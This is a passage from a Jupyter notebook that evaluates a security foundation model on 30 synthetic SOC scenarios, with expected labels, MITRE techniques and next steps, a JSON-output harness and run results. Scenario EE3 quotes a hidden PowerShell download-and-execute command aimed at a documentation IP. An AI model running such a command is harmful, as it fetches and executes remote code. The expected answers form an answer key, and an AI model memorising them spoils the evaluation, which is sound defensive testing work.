# 07 -- How Should a PM Judge Whether a Security Foundation Model Is Good Enough?

Same `.venv`, same `Foundation-Sec-1.1-8B-Instruct` Q4_K_M GGUF model and `llama-cpp-python` setup as notebooks 03-05 (not re-downloaded). Notebooks 00-06 are untouched. No comparison to any other model happens in this notebook -- that is deliberately out of scope here.

## Section 1 -- The evaluation question

This notebook evaluates Foundation-Sec on several distinct security tasks. The point is **not** to answer:

> "Is Foundation-Sec a good model?"

That question has no answerable form -- good at what, compared to what, safe by whose standard? The question this notebook actually answers is:

> "How well does this model perform on specific product tasks, what kinds of failures does it make, and what would we need to know before deploying it?"

**Why model quality is not a single number.** A model can be excellent at classifying obvious ransomware and simultaneously unreliable at extracting exact entities from a log line, or confident-sounding while quietly overpredicting MITRE techniques. Collapsing all of that into one accuracy percentage throws away exactly the information a product decision needs -- *which* failures happen, *how often*, and *how costly* each one would be if it reached a customer.

This notebook measures the model along eight separate dimensions, each answering a different question:

- **Task correctness** -- did it get the classification right?
- **MITRE ATT&CK precision/recall** -- where relevant, were the named techniques correct, and were the right ones found?
- **Evidence grounding** -- are its claims actually supported by what was given to it?
- **Unsupported claims / hallucination** -- did it invent specifics that weren't there?
- **Completeness** -- did it cover the evidence and next steps that actually matter?
- **Consistency** -- does it reach the same conclusion twice on the same input?
- **Output structure** -- can a downstream system actually parse what it returns?
- **Latency** -- is it fast enough for the workflow it would sit inside?

## Section 2 -- The golden dataset

**Synthetic evaluation dataset built for this experiment.** 30 scenarios across 6 categories (5 each), covering brute force, impossible travel, compromised accounts, suspicious PowerShell, credential dumping, malicious outbound connections, ransomware-like activity, lateral movement, phishing, privilege escalation, and -- deliberately -- benign administrator activity, unusual-but-legitimate maintenance, and other cases designed to be genuinely ambiguous rather than obvious. All IPs use RFC 5737 documentation ranges or private (`10.x`) ranges; the one CVE-shaped identifier used is an explicit fictional placeholder (`CVE-0000-77123`) chosen specifically to avoid colliding with a real CVE, a mistake caught and fixed in notebook 04 before it went public.

The six categories test six different things on purpose:

1. **Alert classification** -- BENIGN / SUSPICIOUS / MALICIOUS on a single event.
2. **MITRE ATT&CK mapping** -- naming the correct technique(s) for observed behavior.
3. **Security reasoning** -- explaining significance and severity, including genuinely ambiguous cases with a plausible innocent explanation.
4. **Incident summarization** -- condensing a multi-step timeline without inventing or dramatizing.
5. **Investigation recommendations** -- proposing next steps proportionate to the actual evidence.
6. **Evidence/entity extraction** -- pulling out exactly the IPs, users, timestamps, and files given, nothing more.

In [1]:
SCENARIOS = [
    # --- Category 1: Alert classification ---
    {"id": "AC1", "category": "alert_classification", "difficulty": "easy",
     "prompt": "Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: A Linux server shows 74 failed SSH login attempts for user 'admin' from IP 198.51.100.12 within 4 minutes, followed by a successful login from the same IP.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["74 failed login attempts", "successful login after failures", "same source IP throughout"],
     "acceptable_findings": ["brute force attack", "credential stuffing"],
     "unsupported_findings": ["names a specific threat actor or APT group", "names a specific malware family", "cites a CVE"],
     "expected_next_steps": ["reset the admin account password", "block or rate-limit the source IP", "review actions taken after the successful login"]},
    {"id": "AC2", "category": "alert_classification", "difficulty": "easy",
     "prompt": "Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: Domain admin 'jperez' ran a scheduled disk cleanup script at 04:00 UTC on FS-01, consistent with the documented monthly maintenance calendar and change ticket CHG-8821.",
     "expected_classification": "BENIGN", "expected_mitre_techniques": None,
     "important_evidence": ["scheduled maintenance window", "matches an approved change ticket", "routine administrative account"],
     "acceptable_findings": ["no action required", "routine maintenance"],
     "unsupported_findings": ["treats this as an incident requiring escalation", "recommends isolating FS-01", "claims signs of compromise"],
     "expected_next_steps": ["no incident response action required", "confirm against change ticket CHG-8821 for audit"]},
    {"id": "AC3", "category": "alert_classification", "difficulty": "hard",
     "prompt": "Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: Service account 'svc-backup' authenticated interactively to DC-02 at 02:47 UTC -- unusual for a service account -- and ran 'vssadmin list shadows' before disconnecting. This matches an emergency backup-verification procedure documented in runbook RB-114 following last night's failed backup job.",
     "expected_classification": "BENIGN", "expected_mitre_techniques": None,
     "important_evidence": ["interactive login by a service account is unusual", "command overlaps with ransomware pre-encryption recon (vssadmin)", "documented runbook explains the activity", "tied to a specific known prior event (failed backup)"],
     "acceptable_findings": ["flags the unusual login as worth noting even though explained", "notes the command only lists shadows, does not delete them"],
     "unsupported_findings": ["classifies this as ransomware or an active attack", "claims shadow copies were deleted (the command only lists them)", "names a specific ransomware family"],
     "expected_next_steps": ["confirm runbook RB-114 was invoked by an authorized operator", "verify no shadow copies were actually deleted"]},
    {"id": "AC4", "category": "alert_classification", "difficulty": "medium",
     "prompt": "Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: Service account 'svc-report' -- which normally only runs scheduled batch jobs -- authenticated interactively to WKSTN-077 at 23:14 UTC from an internal IP, then opened a command prompt. No change ticket or maintenance record exists for this activity.",
     "expected_classification": "SUSPICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["service account behaving interactively, atypical for its normal use", "off-hours timing", "command prompt opened", "no corroborating change ticket"],
     "acceptable_findings": ["recommends verifying account owner", "flags as anomalous account behavior"],
     "unsupported_findings": ["confidently classifies this as confirmed compromise without corroborating evidence", "names a specific attacker or malware"],
     "expected_next_steps": ["verify why svc-report was used interactively", "check what commands were run", "review recent authentication history for this account"]},
    {"id": "AC5", "category": "alert_classification", "difficulty": "medium",
     "prompt": "Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: File server FS-07 shows 8,200 files renamed to a '.cryptx' extension within 3 minutes, and the Volume Shadow Copy service was stopped and its shadow copies deleted shortly before the renames began.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["mass file renaming at high speed", "unfamiliar extension", "shadow copy service stopped and copies deleted", "deletion preceded the encryption-like activity"],
     "acceptable_findings": ["ransomware", "recommends immediate isolation"],
     "unsupported_findings": ["names a specific ransomware family or threat actor not evidenced", "invents a ransom amount or ransom note content"],
     "expected_next_steps": ["immediately isolate FS-07", "identify patient zero", "assess backup integrity given shadow copies were deleted"]},

    # --- Category 2: MITRE ATT&CK mapping ---
    {"id": "MM1", "category": "mitre_mapping", "difficulty": "easy",
     "prompt": "Map the following observed behavior to the most likely MITRE ATT&CK technique (give the technique ID and name): a process was observed reading memory from lsass.exe and writing the output to a file named 'out.dmp' in a temp directory.",
     "expected_classification": None, "expected_mitre_techniques": ["T1003.001"],
     "important_evidence": ["reading memory from lsass.exe", "output written to a dump file", "temp directory used for staging"],
     "acceptable_findings": ["credential dumping", "LSASS memory access"],
     "unsupported_findings": ["names a specific tool (e.g. Mimikatz) not stated in the alert", "invents a CVE"],
     "expected_next_steps": ["isolate the affected host", "reset credentials for accounts with sessions on this host", "determine if the dump file was exfiltrated"]},
    {"id": "MM2", "category": "mitre_mapping", "difficulty": "medium",
     "prompt": "Map the following observed behavior to the most likely MITRE ATT&CK technique (give the technique ID and name): an attacker used a valid stolen VPN credential to log in, then ran 'whoami', 'net user', and 'net group \"Domain Admins\"' shortly after gaining access.",
     "expected_classification": None, "expected_mitre_techniques": ["T1078"],
     "important_evidence": ["valid/stolen credential used to log in", "reconnaissance commands run immediately after access"],
     "acceptable_findings": ["may mention reconnaissance-related techniques as secondary, contextual observations"],
     "unsupported_findings": ["invents an initial-access vector (e.g. a specific phishing email) not evidenced"],
     "expected_next_steps": ["revoke the compromised credential's sessions", "force password reset", "review what the Domain Admins query led to"]},
    {"id": "MM3", "category": "mitre_mapping", "difficulty": "medium",
     "prompt": "Map the following observed behavior to the most likely MITRE ATT&CK technique(s): Host WKSTN-055 executed 'powershell.exe -enc <base64 blob>' with the execution policy bypassed, spawned from an Office document macro.",
     "expected_classification": None, "expected_mitre_techniques": ["T1059.001", "T1027", "T1566.001"],
     "important_evidence": ["base64-encoded powershell execution", "execution policy bypass", "spawned from an Office macro"],
     "acceptable_findings": [],
     "unsupported_findings": ["names a specific malware family or C2 framework not evidenced"],
     "expected_next_steps": ["decode the base64 payload", "identify and block the malicious document", "check for further activity from WKSTN-055"]},
    {"id": "MM4", "category": "mitre_mapping", "difficulty": "medium",
     "prompt": "Map the following observed behavior to the most likely MITRE ATT&CK technique(s): Host DB-03 received an inbound SMB connection from WKSTN-055 using PsExec, which then created and started a remote service.",
     "expected_classification": None, "expected_mitre_techniques": ["T1021.002", "T1569.002"],
     "important_evidence": ["PsExec/SMB-based remote access", "remote service creation and execution"],
     "acceptable_findings": [],
     "unsupported_findings": ["claims data was exfiltrated from DB-03 when the alert only describes lateral movement"],
     "expected_next_steps": ["isolate both hosts", "review the remote service that was created", "check for further lateral movement from DB-03"]},
    {"id": "MM5", "category": "mitre_mapping", "difficulty": "hard",
     "prompt": "Map the following observed behavior to the most likely MITRE ATT&CK technique: standard user 'kdiaz' exploited a local privilege escalation flaw (tracked internally as CVE-0000-77123, a fictional identifier for this exercise) on ENG-WS-14, and was added to the local Administrators group eight seconds later.",
     "expected_classification": None, "expected_mitre_techniques": ["T1068"],
     "important_evidence": ["exploitation of a known local privilege escalation vulnerability", "addition to local Administrators group immediately after"],
     "acceptable_findings": [],
     "unsupported_findings": ["substitutes a different, real-sounding CVE for the fictional one given", "attributes this to a specific threat actor"],
     "expected_next_steps": ["isolate ENG-WS-14", "patch the exploited vulnerability fleet-wide", "review actions taken with elevated privileges"]},

    # --- Category 3: Security reasoning ---
    {"id": "SR1", "category": "security_reasoning", "difficulty": "medium",
     "prompt": "Explain the security significance of the following: user 'tomasz' authenticated to the corporate SSO from Warsaw, Poland at 14:02 UTC, then again from Singapore at 14:11 UTC.",
     "expected_classification": "SUSPICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["two logins from geographically distant locations", "impossibly short elapsed time (9 minutes)", "same account both times"],
     "acceptable_findings": ["recommends treating as suspected compromise pending confirmation", "suggests revoking sessions"],
     "unsupported_findings": ["confidently states which login was the attacker with no basis to distinguish them", "invents an IP reputation score not provided"],
     "expected_next_steps": ["contact tomasz to confirm which session was legitimate", "revoke active sessions and force password reset", "check MFA status for this account"]},
    {"id": "SR2", "category": "security_reasoning", "difficulty": "medium",
     "prompt": "Explain the security significance of the following: workstation LAP-201 sends an outbound connection to 192.0.2.77 every 45 seconds over port 443, with TLS characteristics that do not match any browser or approved application on this network.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["fixed-interval beaconing pattern", "TLS fingerprint mismatch", "port 443 used to blend with normal traffic"],
     "acceptable_findings": [],
     "unsupported_findings": ["names a specific malware family or C2 framework not evidenced", "claims to know the geographic location or ownership of 192.0.2.77"],
     "expected_next_steps": ["isolate LAP-201", "block 192.0.2.77 at the perimeter", "capture full packet data for the session"]},
    {"id": "SR3", "category": "security_reasoning", "difficulty": "hard",
     "prompt": "Explain the security significance of the following: user 'anelson' shows two simultaneous active VPN sessions from two different IP addresses in the same city, both authenticated with the same valid MFA-backed credential within the last hour. The company's VPN client is known to sometimes leave a stale session open after a laptop sleep/wake cycle.",
     "expected_classification": "SUSPICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["two simultaneous sessions from the same account", "both in the same city, not impossible travel", "MFA was used for both", "a known benign explanation exists"],
     "acceptable_findings": ["notes this is more consistent with a benign client bug than compromise, given the context", "still recommends verifying rather than dismissing"],
     "unsupported_findings": ["confidently declares confirmed account compromise despite the plausible benign explanation given", "claims MFA was bypassed when the prompt states MFA was used"],
     "expected_next_steps": ["confirm with anelson whether a sleep/wake cycle occurred", "check if both sessions show identical device fingerprints", "terminate the stale session if confirmed benign"]},
    {"id": "SR4", "category": "security_reasoning", "difficulty": "medium",
     "prompt": "Explain the security significance of the following: a service account with normal read-only reporting access executed a query exporting 1.8 million customer records to a file at 02:13 UTC, which was then uploaded to an external cloud storage provider not on the approved vendor list.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["large volume of customer records exported", "off-hours timing", "upload to an unapproved external destination", "account's normal role is read-only reporting, not bulk export"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents a specific attacker identity or motive", "claims the data has already been publicly leaked"],
     "expected_next_steps": ["disable the service account", "block the destination domain", "determine full scope of exported data", "notify legal/privacy team"]},
    {"id": "SR5", "category": "security_reasoning", "difficulty": "medium",
     "prompt": "Explain the security significance of the following: an email impersonating the IT helpdesk was sent to 40 employees requesting they 're-verify' their credentials via a linked page hosted on a domain registered two days ago. Six employees clicked the link; two of those six submitted credentials.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["helpdesk impersonation", "recently registered domain (2 days old)", "credential harvesting page", "2 of 40 employees submitted credentials"],
     "acceptable_findings": [],
     "unsupported_findings": ["claims false certainty about which employees submitted credentials beyond what's given", "invents the attacker's country of origin"],
     "expected_next_steps": ["force password reset for the two affected accounts", "block the malicious domain", "notify all 40 targeted employees"]},

    # --- Category 4: Incident summarization ---
    {"id": "IS1", "category": "incident_summarization", "difficulty": "hard",
     "prompt": "Summarize the following incident timeline in a few sentences for a shift-handoff note: 09:02 UTC - phishing email opened on WKSTN-090, macro executed PowerShell. 09:04 UTC - PowerShell downloaded a secondary payload. 09:15 UTC - credential dumping observed on WKSTN-090. 09:40 UTC - lateral movement to FS-03 via stolen credentials. 10:05 UTC - mass file encryption began on FS-03, affecting approximately 12,000 files.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["initial access via phishing/macro", "PowerShell payload download", "credential dumping", "lateral movement to FS-03", "mass encryption of ~12,000 files", "roughly one-hour timeline"],
     "acceptable_findings": ["notes the full kill-chain progression"],
     "unsupported_findings": ["invents an entry point or CVE not mentioned", "names a specific ransomware family not given", "adds a ransom demand figure not present"],
     "expected_next_steps": ["contain FS-03 and any other reached hosts", "reset credentials involved in lateral movement", "begin backup-recovery assessment"]},
    {"id": "IS2", "category": "incident_summarization", "difficulty": "medium",
     "prompt": "Summarize the following for a shift-handoff note: 13:00 UTC - user 'rwhite' credentials entered on a phishing page. 13:22 UTC - VPN login using rwhite's credentials from an unfamiliar IP. 13:30 UTC - reconnaissance commands (whoami, net group) run in the session. 13:47 UTC - RDP connection from rwhite's account to FIN-SRV-02, a host rwhite has never accessed before.",
     "expected_classification": "MALICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["credential theft via phishing", "VPN login from unfamiliar IP shortly after", "reconnaissance commands run", "RDP to a host outside the user's normal access pattern"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents that data was exfiltrated from FIN-SRV-02", "invents the unfamiliar IP's geographic location"],
     "expected_next_steps": ["disable rwhite's account pending investigation", "review FIN-SRV-02 for further compromise", "reset credentials"]},
    {"id": "IS3", "category": "incident_summarization", "difficulty": "medium",
     "prompt": "Summarize the following for a shift-handoff note: 01:00 UTC - scheduled certificate rotation job started on 14 production servers per change ticket CHG-9012. 01:05-01:40 UTC - each server briefly restarted its web service to load the new certificate, causing expected short service interruptions. 01:42 UTC - monitoring confirmed all 14 servers healthy with valid new certificates.",
     "expected_classification": "BENIGN", "expected_mitre_techniques": None,
     "important_evidence": ["scheduled, approved change (CHG-9012)", "expected short service interruptions during rotation", "successful completion confirmed by monitoring"],
     "acceptable_findings": ["notes this requires no further action", "recommends closing out the change ticket"],
     "unsupported_findings": ["treats the service restarts as a security incident or outage requiring escalation", "invents a security concern (e.g. compromised certificates) not present"],
     "expected_next_steps": ["close change ticket CHG-9012", "no incident response action required"]},
    {"id": "IS4", "category": "incident_summarization", "difficulty": "medium",
     "prompt": "Summarize the following for a shift-handoff note: 08:10 UTC - employee reports a suspicious email requesting a wire transfer, claiming to be from the CFO. 08:15 UTC - security team confirms the sender domain is a lookalike of the company's domain (one character different). 08:20 UTC - no wire transfer was made; employee reported before acting.",
     "expected_classification": "SUSPICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["business email compromise style request", "lookalike domain confirmed", "no financial loss occurred", "employee reported before acting"],
     "acceptable_findings": ["notes this was a prevented attempt", "recommends employee recognition and broader awareness communication"],
     "unsupported_findings": ["classifies this as a successful compromise or financial loss when explicitly no transfer was made", "invents an amount that was 'almost' transferred"],
     "expected_next_steps": ["block the lookalike domain", "alert finance staff broadly about the BEC attempt", "recognize the reporting employee"]},
    {"id": "IS5", "category": "incident_summarization", "difficulty": "hard",
     "prompt": "Summarize the following partial incident information for a shift-handoff note, noting any important gaps: an EDR alert fired on WKSTN-133 for 'suspicious process behavior' at 16:40 UTC. The specific process name and triggering rule were not captured due to a logging misconfiguration. No further activity has been observed on the host since.",
     "expected_classification": "SUSPICIOUS", "expected_mitre_techniques": None,
     "important_evidence": ["EDR alert fired but key details are missing due to a logging gap", "no further activity observed since"],
     "acceptable_findings": ["explicitly notes the missing process name and rule details as a gap needing follow-up", "does not treat absence of further activity as proof of a false positive"],
     "unsupported_findings": ["invents a specific process name or rule that was not actually captured", "confidently classifies this as a confirmed false positive or confirmed compromise despite stating information is missing"],
     "expected_next_steps": ["fix the logging misconfiguration", "continue monitoring WKSTN-133", "check other detection sources that might have captured what EDR missed"]},

    # --- Category 5: Investigation recommendations ---
    {"id": "IR1", "category": "investigation_recommendations", "difficulty": "easy",
     "prompt": "Recommend investigation steps for the following alert: host WKSTN-210 executed a PowerShell command with a hidden window and a base64-encoded argument, three minutes after a Word document was opened.",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["hidden-window powershell execution", "base64-encoded argument", "triggered shortly after opening a Word document"],
     "acceptable_findings": [],
     "unsupported_findings": ["recommends an action irrelevant to this alert with no stated connection"],
     "expected_next_steps": ["decode the base64 payload", "identify and review the Word document and its source", "check the process tree", "search other hosts for the same indicator"]},
    {"id": "IR2", "category": "investigation_recommendations", "difficulty": "medium",
     "prompt": "Recommend investigation steps for the following alert: an unsigned executable named 'svchost_update.exe' (note the naming similarity to the legitimate Windows 'svchost.exe') was dropped in C:\\ProgramData\\ and executed on WKSTN-144, then created a scheduled task for persistence.",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["unsigned executable mimicking a legitimate process name", "dropped in a non-standard location", "scheduled task created for persistence"],
     "acceptable_findings": [],
     "unsupported_findings": ["claims to have identified the malware family from the filename alone", "invents a specific C2 domain"],
     "expected_next_steps": ["isolate WKSTN-144", "analyze the binary in a sandbox", "remove the persistence scheduled task", "check for the same file hash on other hosts"]},
    {"id": "IR3", "category": "investigation_recommendations", "difficulty": "medium",
     "prompt": "Recommend investigation steps for the following alert: user 'bkowalski', a standard user, was unexpectedly added to the local Administrators group on ACCT-WS-08 with no corresponding help-desk ticket.",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["unauthorized-looking privilege change", "no corresponding help-desk ticket", "standard user gaining admin rights"],
     "acceptable_findings": [],
     "unsupported_findings": ["assumes bkowalski personally orchestrated this rather than considering the account itself may be compromised"],
     "expected_next_steps": ["determine how/by whom the group membership change was made", "review actions taken since gaining admin rights", "revert the change if unauthorized", "check for a compromised admin account"]},
    {"id": "IR4", "category": "investigation_recommendations", "difficulty": "hard",
     "prompt": "Recommend investigation steps for the following alert: a single antivirus engine (out of 12 running on the endpoint) flagged a file as 'possibly unwanted' with low confidence, on a developer workstation that regularly runs custom-built and unsigned internal tools. No other suspicious activity has been observed.",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["only 1 of 12 AV engines flagged it, at low confidence", "developer workstation with a documented pattern of unsigned internal tools", "no other corroborating suspicious activity"],
     "acceptable_findings": ["recommends gathering corroborating evidence before disruptive action", "notes context reduces urgency"],
     "unsupported_findings": ["recommends immediately isolating or wiping the endpoint based solely on this single low-confidence signal", "treats this with the same urgency as a confirmed multi-engine detection"],
     "expected_next_steps": ["submit the file for deeper analysis before acting", "check whether it matches a known internal tool", "avoid disruptive containment without corroborating evidence"]},
    {"id": "IR5", "category": "investigation_recommendations", "difficulty": "medium",
     "prompt": "Recommend investigation steps for the following alert: service account 'svc-etl' -- normally only active during a nightly 01:00-02:00 UTC batch window -- authenticated and performed actions at 15:30 UTC, outside its normal window, from a host it has never used before.",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["activity outside the account's established time window", "unfamiliar source host", "service account, not a human user"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents that the account's credentials are confirmed leaked without evidence"],
     "expected_next_steps": ["verify with the system owner whether this was expected", "review what actions were performed", "check whether credentials may have been exposed or reused"]},

    # --- Category 6: Evidence / entity extraction ---
    {"id": "EE1", "category": "evidence_extraction", "difficulty": "easy",
     "prompt": "Extract the key security-relevant entities (IP addresses, usernames, timestamps) from the following log line: 'Jan 15 03:22:11 authsrv sshd[2291]: Failed password for invalid user oracle from 203.0.113.201 port 55210 ssh2'",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["username: oracle", "source IP: 203.0.113.201", "timestamp: Jan 15 03:22:11", "port: 55210"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents a username, IP, or timestamp not present", "claims this IP's geographic location or reputation"],
     "expected_next_steps": None},
    {"id": "EE2", "category": "evidence_extraction", "difficulty": "medium",
     "prompt": "Extract the key security-relevant entities from the following EDR alert: 'Process C:\\Windows\\Temp\\upd8r.exe (SHA256: 3f9a1b2c...e01d) executed by user WKSTN-088\\jsmith at 2026-03-11T09:14:02Z, network connection to 192.0.2.201:4444.'",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["file path: C:\\Windows\\Temp\\upd8r.exe", "hash fragment: 3f9a1b2c...e01d", "user: WKSTN-088\\jsmith", "timestamp: 2026-03-11T09:14:02Z", "destination: 192.0.2.201:4444"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents a full/complete hash beyond the truncated one given", "claims to have identified the malware family from the hash", "invents a different destination port"],
     "expected_next_steps": None},
    {"id": "EE3", "category": "evidence_extraction", "difficulty": "medium",
     "prompt": "Extract the key security-relevant entities from the following: 'Host FIN-WS-22 ran: powershell.exe -NoProfile -WindowStyle Hidden -Command \"IEX (New-Object Net.WebClient).DownloadString('http://192.0.2.50/payload.ps1')\" at 2026-04-02 22:10:07 local time, initiated by user contractor_temp.'",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["host: FIN-WS-22", "hidden-window powershell with download-and-execute pattern", "download URL: http://192.0.2.50/payload.ps1", "timestamp: 2026-04-02 22:10:07", "user: contractor_temp"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents the contents of payload.ps1, which was never retrieved or shown", "invents a CVE or exploit name"],
     "expected_next_steps": None},
    {"id": "EE4", "category": "evidence_extraction", "difficulty": "medium",
     "prompt": "Extract the key security-relevant entities from the following network log: 'Connection: src=10.0.4.18:51322 dst=192.0.2.90:8443 proto=TCP bytes_sent=45231000 bytes_received=1200 duration=340s flagged_reason=large_outbound_transfer'",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["source: 10.0.4.18:51322", "destination: 192.0.2.90:8443", "bytes sent: 45,231,000 (large outbound)", "bytes received: 1,200 (asymmetric)", "duration: 340 seconds"],
     "acceptable_findings": [],
     "unsupported_findings": ["invents what data was contained in the transfer", "claims a specific application/protocol beyond generic TCP"],
     "expected_next_steps": None},
    {"id": "EE5", "category": "evidence_extraction", "difficulty": "hard",
     "prompt": "Extract only the security-relevant entities from the following mixed log excerpt, ignoring routine/irrelevant lines: 'INFO: health check OK. INFO: cache refreshed. WARN: process winupdate32.exe launched by user tsmith from 198.51.100.44 with elevated privileges at 19:02 UTC. INFO: disk usage 42%. INFO: scheduled job queue empty.'",
     "expected_classification": None, "expected_mitre_techniques": None,
     "important_evidence": ["process: winupdate32.exe", "user: tsmith", "source IP: 198.51.100.44", "elevated privileges", "timestamp: 19:02 UTC"],
     "acceptable_findings": ["correctly ignores the health-check/cache/disk-usage/job-queue lines"],
     "unsupported_findings": ["includes irrelevant health-check, cache, disk-usage, or job-queue lines as security findings", "claims winupdate32.exe is confirmed malicious purely from its name"],
     "expected_next_steps": None},
]

categories = sorted(set(s["category"] for s in SCENARIOS))
print(f"{len(SCENARIOS)} synthetic scenarios across {len(categories)} categories:")
for cat in categories:
    n = sum(1 for s in SCENARIOS if s["category"] == cat)
    print(f"  {cat}: {n}")
print(f"\nDifficulty mix: " + ", ".join(f"{d}={sum(1 for s in SCENARIOS if s['difficulty']==d)}" for d in ['easy','medium','hard']))

30 synthetic scenarios across 6 categories:
  alert_classification: 5
  evidence_extraction: 5
  incident_summarization: 5
  investigation_recommendations: 5
  mitre_mapping: 5
  security_reasoning: 5

Difficulty mix: easy=5, medium=18, hard=7


## Section 3 -- Structured model output

Every scenario asks for the same JSON shape, regardless of category:

```json
{"classification": "", "confidence": "", "evidence": [], "mitre_techniques": [], "missing_information": [], "recommended_next_steps": []}
```

For categories where classification or MITRE techniques don't apply (summarization, recommendations, extraction), the model is told to use `"N/A"` or an empty list -- the schema stays identical across all 30 scenarios rather than changing per task type. **Why one fixed schema matters:** it's what makes automated evaluation possible at all (Sections 5-12 all depend on parsing the same fields the same way), it's what a downstream application would actually consume, it's what schema validation would check before anything reaches a user, it's what makes the output observable (log the same fields every time, from any scenario), and it's exactly what a regression suite (Section 15) needs to compare run over run without special-casing.

**No manual editing of model responses before evaluation, anywhere in this notebook.** If JSON parsing fails, that is recorded as a failure (Section 10), not silently fixed.

In [2]:
import warnings
warnings.filterwarnings("ignore", message="IProgress not found")

import json
import re
import time
from pathlib import Path

from huggingface_hub import hf_hub_download
from llama_cpp import Llama

REPO_ID = "fdtn-ai/Foundation-Sec-1.1-8B-Instruct-Q4_K_M-GGUF"
FILENAME = "foundation-sec-1.1-8b-instruct-q4_k_m.gguf"

model_path = hf_hub_download(repo_id=REPO_ID, filename=FILENAME)  # resolves instantly -- already cached
print(f"Using cached model file: {FILENAME} (not re-downloaded)")

llm = Llama(model_path=model_path, n_ctx=2048, n_gpu_layers=-1, verbose=False)
print("Model loaded.")

GENERATION_SETTINGS = {"temperature": 0.1, "max_tokens": 350}
print(f"Generation settings used throughout this notebook: {GENERATION_SETTINGS} (low temperature, not zero -- documented, not hidden)")

SYSTEM_PROMPT = (
    "You are a SOC analyst assistant. You will be given a security-related task about one event or incident. "
    "Respond with ONLY a single valid JSON object and nothing else -- no markdown, no code fences, no text outside the JSON. "
    "The JSON object must have exactly these keys: "
    '{"classification": one of ["BENIGN", "SUSPICIOUS", "MALICIOUS", "N/A"], '
    '"confidence": one of ["low", "medium", "high"], '
    '"evidence": [short strings -- key facts, findings, or summary points relevant to the task], '
    '"mitre_techniques": [MITRE ATT&CK technique ID strings, e.g. "T1110", or an empty list if not applicable], '
    '"missing_information": [short strings describing what would help], '
    '"recommended_next_steps": [short strings, prioritized actions]}. '
    'If the task does not call for a classification or MITRE techniques, use "N/A" or an empty list respectively -- '
    "do not omit the keys."
)


def extract_json(text):
    text = text.strip()
    text = re.sub(r"^```(?:json)?", "", text).strip()
    text = re.sub(r"```$", "", text).strip()
    start, end = text.find("{"), text.rfind("}")
    if start == -1 or end == -1 or end < start:
        return None
    try:
        return json.loads(text[start:end + 1])
    except json.JSONDecodeError:
        return None


def query_model(prompt_text):
    messages = [{"role": "system", "content": SYSTEM_PROMPT}, {"role": "user", "content": prompt_text}]
    t0 = time.time()
    try:
        resp = llm.create_chat_completion(
            messages=messages, response_format={"type": "json_object"}, **GENERATION_SETTINGS,
        )
    except TypeError:
        resp = llm.create_chat_completion(messages=messages, **GENERATION_SETTINGS)
    latency = time.time() - t0
    raw_text = resp["choices"][0]["message"]["content"].strip()
    return {
        "raw_text": raw_text,
        "parsed": extract_json(raw_text),
        "latency_sec": latency,
        "usage": resp.get("usage", {}),
    }


print("Task defined.")

Using cached model file: foundation-sec-1.1-8b-instruct-q4_k_m.gguf (not re-downloaded)


Model loaded.
Generation settings used throughout this notebook: {'temperature': 0.1, 'max_tokens': 350} (low temperature, not zero -- documented, not hidden)
Task defined.


## Section 4 -- Run all 30 scenarios

In [3]:
results = []
for i, scenario in enumerate(SCENARIOS, 1):
    outcome = query_model(scenario["prompt"])
    results.append({
        "id": scenario["id"], "scenario": scenario,
        "raw_text": outcome["raw_text"], "parsed": outcome["parsed"],
        "latency_sec": outcome["latency_sec"], "usage": outcome["usage"],
    })
    status = "ok" if outcome["parsed"] is not None else "PARSE FAIL"
    if i % 5 == 0 or status == "PARSE FAIL":
        print(f"[{i:2d}/{len(SCENARIOS)}] {scenario['id']} ({scenario['category']}, {scenario['difficulty']}): {status}, {outcome['latency_sec']:.1f}s")

n_parsed = sum(1 for r in results if r["parsed"] is not None)
print(f"\n{n_parsed}/{len(results)} responses parsed as valid JSON.")

[ 5/30] AC5 (alert_classification, medium): ok, 17.8s


[10/30] MM5 (mitre_mapping, hard): ok, 13.2s


[15/30] SR5 (security_reasoning, medium): ok, 10.3s


[20/30] IS5 (incident_summarization, hard): ok, 12.3s


[25/30] IR5 (investigation_recommendations, medium): ok, 11.6s


[30/30] EE5 (evidence_extraction, hard): ok, 12.3s

30/30 responses parsed as valid JSON.


## Section 5 -- Classification evaluation

Scored only for the 15 scenarios that define an `expected_classification` (alert classification, security reasoning, and incident summarization -- the categories where an overall severity call actually makes sense).

In [4]:
for r in results:
    predicted = None
    if r["parsed"]:
        raw_label = str(r["parsed"].get("classification", "")).strip().upper()
        predicted = raw_label if raw_label else None
    r["predicted_classification"] = predicted

classification_results = [r for r in results if r["scenario"]["expected_classification"] is not None]
for r in classification_results:
    r["classification_correct"] = r["predicted_classification"] == r["scenario"]["expected_classification"]

n_correct = sum(1 for r in classification_results if r["classification_correct"])
n_total = len(classification_results)
